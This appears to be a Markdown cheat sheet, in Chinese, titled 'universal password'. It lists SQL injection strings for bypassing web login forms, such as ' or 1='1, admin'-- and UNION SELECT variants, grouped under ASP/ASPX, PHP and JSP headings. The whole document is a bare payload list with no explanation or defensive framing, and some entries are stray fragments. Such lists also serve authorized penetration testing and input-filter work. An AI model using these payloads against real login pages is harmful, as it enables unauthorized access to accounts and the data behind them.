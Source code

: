 # 万能密码

' or 1='1



'or'='or'



admin



admin'--



admin' or 4=4--



admin' or '1'='1'--



admin888



"or "a"="a



admin' or 2=2#



a' having 1=1#



a' having 1=1--



admin' or '2'='2



')or('a'='a



or 4=4--



c



a'or' 4=4--



"or 4=4--



'or'a'='a



"or"="a'='a



'or''='



'or'='or'



1 or '1'='1'=1



1 or '1'='1' or 4=4



'OR 4=4%00



"or 4=4%00



'xor



admin' UNION Select 1,1,1 FROM admin Where ''='



1



-1%cf' union select 1,1,1 as password,1,1,1 %23



1



17..admin' or 'a'='a 密码随便



'or'='or'



'or 4=4/*



something



' OR '1'='1



1'or'1'='1



admin' OR 4=4/*



1	



#### asp aspx万能密码



1：”or “a”=”a 



2： ‘)or(‘a’=’a 



3：or 1=1– 



4：’or 1=1– 



5：a’or’ 1=1– 



6：”or 1=1– 



7：’or’a’=’a 



8：”or”=”a’=’a 



9：’or”=’ 



10：’or’=’or’ 



11: 1 or ‘1’=’1’=1 



12: 1 or ‘1’=’1’ or 1=1 



13: ‘OR 1=1%00 



14: “or 1=1%00 



15: ‘xor 



16: 用户名 ’ UNION Select 1,1,1 FROM admin Where ”=’ （替换表名admin） 密码 1 



17..admin’ or ‘a’=’a 密码随便



#### PHP万能密码



‘or 1=1/* User: something Pass: ’ OR ‘1’=’1



#### jsp 万能密码



1’or’1’=’1 admin’ OR 1=1/*